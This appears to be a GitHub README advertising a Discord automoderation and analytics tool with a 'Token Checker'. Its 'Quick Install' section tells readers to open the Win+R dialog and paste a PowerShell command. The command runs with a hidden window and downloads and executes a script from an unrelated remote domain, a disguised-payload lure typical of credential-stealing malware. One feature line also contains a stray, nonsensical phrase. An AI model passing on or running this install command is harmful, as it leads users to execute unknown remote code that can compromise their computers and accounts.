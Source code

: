 ### 🚀 MAIN FEATURES:

### Token Checker Now Avaliable!

<details>
<summary><strong>🤖 AUTOMODERATION (Click to expand)</strong></summary>

- [x] Automoderation - auto-ban, word filter, anti-spam
- [x] Auto-greetings - private messages to new members
- [x] Auto-roles - giving roles by reactions/keywords
- [x] Auto-posting - publishing news, events, advertisementsspotting a shiny acorn! ⚙️

</details>

<details>
<summary><strong>📊 ANALYTICS AND MANAGEMENT (Click to expand)</strong></summary>

- [x] Server statistics - activity, growth of members
- [x] User analysis - who writes/calls most often
- [x] Mass cleanup - deleting messages, bans, roles

</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```
